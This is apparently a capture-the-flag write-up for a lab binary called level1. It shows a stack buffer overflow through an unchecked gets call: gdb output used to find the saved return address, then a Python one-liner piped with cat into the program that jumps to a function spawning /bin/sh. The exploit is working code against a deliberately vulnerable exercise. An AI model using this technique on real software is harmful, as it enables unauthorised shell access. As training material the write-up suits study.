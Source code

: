 We can observe while decompiling the binary that there is a call to `gets` on a buffer of size 76 and a function named `run` with a call to `system("/bin/sh")` located at `0x08048444`.

We could then use a buffer overflow exploit to replace the value of `eip` stored in the stack to execute the `run` function.

## Investigation

First we need to know how many chars we need to write before starting to write over `eip`. And for that we need to know where it is stored in the stack.
We know that `eip` is stored just after `ebp`
```
(gdb) i r ebp
ebp            0xbffff728       0xbffff728
```
at `0xbffff728 + 0x4 = 0xbffff72c`

Now we will need to know where our buffer is in the stack. For that we can give an input of `aaaaaaaaaaaaaaaa` (ASCII for 'a' is 61) and print the stack.
```
(gdb) x/12xw $esp
0xbffff6d0:     0xbffff6e0      0x0000002f      0xbffff72c      0xb7fd0ff4
0xbffff6e0:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff6f0:     0xb7fd1300      0x00000016      0x0804978c      0x080484c1
```
Our buffer start at the address `0xbffff6e0` (0x10 after the start of esp).

If we substract our 2 adresses we get `0xbffff72c - 0xbffff6e0 = 0x4c` or `0d76` so we need to write 76 chars to rewrite the value of `eip` to `0x08048444`.

## Exploit

First we will need to write the address of `run` in little endian `44840408` and add 76 chars before it. In python it should be
```py
print "A"*76 + "\x44\x84\x04\x08"
```
But we will need to have the prompt back to be able to pass command to the shell. For that we will use `cat -`.
Those two combined this will give us
```shell
(cat <(python -c 'print "A" * 76 + "\x44\x84\x04\x08"') -) | ./level1
```
